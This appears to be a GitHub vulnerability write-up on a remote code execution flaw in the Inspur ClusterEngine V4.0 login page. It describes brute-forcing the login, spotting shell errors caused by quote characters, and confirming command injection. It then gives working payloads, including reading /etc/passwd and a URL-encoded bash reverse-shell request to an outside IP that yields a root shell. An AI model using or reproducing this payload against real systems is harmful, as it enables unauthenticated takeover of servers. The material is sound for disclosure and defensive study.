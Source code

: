 # Inspur ClusterEngineV4.0 Remote Code Execution

# 0x01 Description

Today, i found a `Inspur Server Cluster Management System` in our intranet, which login page looks like that.

![1573267238057](img/1573267238057.png)

It doesn't have verification code, so i decide to crack a login account.

![1573267410033](img/1573267410033.png)



when burpsuite crack down, i noticed if post data has `;'`, the response packet is abnormal.

![1573267472820](img/1573267472820.png)

At now, I realize that there may be a remote code execution, and I put this packet in repeater to repeat it, I found if there is a `'` in post data, the system will throw an exception.

![1573267667895](img/1573267667895.png)

![1573267621779](img/1573267621779.png)

When I further tested, I found that either the username parameter or the password parameter contains `'`, an exception will be thrown.

![1573267874260](img/1573267874260.png)

So I decided to try send `' '`  to see the response packet.

![1573267904173](img/1573267904173.png)

I noticed `grep` command error,  may be server code like 
```shell
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$passwd','$1$$var1')")
```

So i try to send `-V` and `--help` to see response packet,  the response packet confirmed my guess.

![1573268170355](img/1573268170355.png)

![1573268245311](img/1573268245311.png)

Try to read `/etc/passwd`

![1573268332873](img/1573268332873.png)

Try to list the directories

![1573268361127](img/1573268361127.png)



# 0x02 Pwned

Now, I confirmed there is a remote code execution that i found, after fuzz, I got the following payload

`whoami`

![1573268530852](img/1573268530852.png)

`uname`

![1573268555327](img/1573268555327.png)

`revershell`

```
op=login&username=1 2\',\'1\'\);  `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```

When i send payload, i get a `root shell` on my `kali linux`server

![1573268596272](img/1573268596272.png)

![1573267093372](img/1573267093372.png)
